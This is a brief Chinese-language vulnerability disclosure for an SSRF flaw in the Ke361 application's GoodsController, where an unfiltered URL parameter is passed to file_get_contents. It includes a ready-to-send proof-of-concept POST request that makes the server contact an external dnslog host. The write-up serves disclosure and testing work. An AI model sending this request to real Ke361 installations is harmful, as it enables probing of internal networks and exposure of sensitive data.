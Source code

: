 # Ke361 GoodsController.class.php SSRF漏洞

## 漏洞描述

Ke361 GoodsController.class.php URL参数存在 SSRF漏洞，通过漏洞可以获取敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Home/Controller/GoodsController.class.php`

![image-20220518153445715](images/202205181534788.png)

URL参数无任何过滤，传入 file_get_contents函数，造成SSRF漏洞，构造请求

```
POST /index.php?s=/Goods/ajGetGoodsDetial
 
url=http://6si2gt.dnslog.cn
```

![image-20220518153459466](images/202205181534535.png)

dnslog接收到请求

![image-20220518153527567](images/202205181535619.png)